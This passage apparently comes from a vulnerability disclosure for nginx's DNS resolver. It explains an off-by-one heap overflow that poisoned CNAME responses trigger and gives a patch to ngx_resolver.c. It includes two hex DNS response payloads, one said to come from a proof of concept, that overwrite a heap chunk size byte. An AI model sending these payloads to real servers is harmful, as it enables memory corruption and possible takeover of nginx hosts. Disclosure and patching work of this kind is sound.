 An example payload of DNS response for a ‘example.net’ request, containing a poisoned CNAME:

```
bcb881800001000100000000076578616d706c65036e657400001c0001c00c0005000100000e10000b0141c004
         ^                                                                        |   ^ pointer to position 0x04 -|
         NULL byte <----------------------------------------------------------------------------------------------|
                                                                                  |            
                                                                                  ^ 1 byte label



```

A slightly different payload (the one in poc.py) fills enough bytes to overwrite the `next_chunk.mchunk_size` least significant byte with a dot:

```
bcb881800001000100000000076578616d706c65036e657400001c0001c00c0005000100000e10000b18414141414141414141414141414141414141414141414141c004
                                                                                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                                                    |
                                                                                    24 bytes label



```

A 24 bytes label leads to a 24 bytes buffer allocated, which is filled with 24 bytes + an out of bounds dot character.

Fix / Workarounds
-----------------

Allocating an extra byte for the spurious dot character written at the end of the poisoned domain names mitigates the issue.

```
--- ngx_resolver.c	2021-04-06 15:59:50.293734070 +0200
+++ src/nginx-1.19.8/src/core/ngx_resolver.c	2021-04-06 15:54:10.232975235 +0200
@@ -3943,7 +3928,7 @@
     ngx_uint_t   i, n;
 
     p = src;
-    len = -1;
+    len = 0;
 
     /*
      * compression pointers allow to create endless loop, so we set limit;
@@ -3986,7 +3971,7 @@
         return NGX_OK;
     }
 
-    if (len == -1) {
+    if (len == 0) {
         ngx_str_null(name);
         return NGX_OK;
     }



```
